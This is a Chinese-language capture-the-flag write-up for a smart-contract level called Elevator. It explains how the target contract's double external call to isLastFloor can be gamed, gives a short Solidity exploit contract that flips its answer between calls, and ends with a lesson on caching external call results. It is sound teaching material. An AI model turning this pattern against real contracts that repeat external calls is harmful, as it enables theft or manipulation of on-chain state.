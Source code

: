 # 第十一关：Elevator
[toc]
### 本关知识点：
```
合约的外部调用
```

## 1. 题目要求
`电梯不会让你达到大楼顶部, 对吧? `

## 2. 代码功能解读
![[Pasted image 20230517101628.png]]

## 3. 漏洞分析
```
到达顶楼就是让top的值为true。
	查看goTo方法逻辑，isLastFloor返回为false才会进入，进入后再次调用isLastFloor来设置top的值，那么我们让第一次方法返回false，第二次返回true，就可以成功实现到达顶楼。
```

## 4. 攻击方法
用flag状态变量来控制，达到每一次调用isLastFloor方法都返回不同值的效果。
``` javascript
contract Exploit is Building {

    Elevator elevator;

    bool flag = false;

  

    constructor(address victim) {

        elevator = Elevator(victim);

    }

  

    function Attack(uint number) public {

        elevator.goTo(number);

    }

  

    function isLastFloor(uint) external returns (bool) {

        if (!flag) {

            flag = true;

            return false;

        } else {

            flag = false;

            return true;

        }

    }

}

```

## 5. 攻击调用图
![[Pasted image 20230517110228.png]]

![[Pasted image 20230517110251.png]]
## 6. 知识点分析

	在我们获取外部调用的结果后，我们应该将他保存到变量中，而不是进行再次调用，这样可能出现不一样的结果，因为所有对外部接口的调用都是危险的！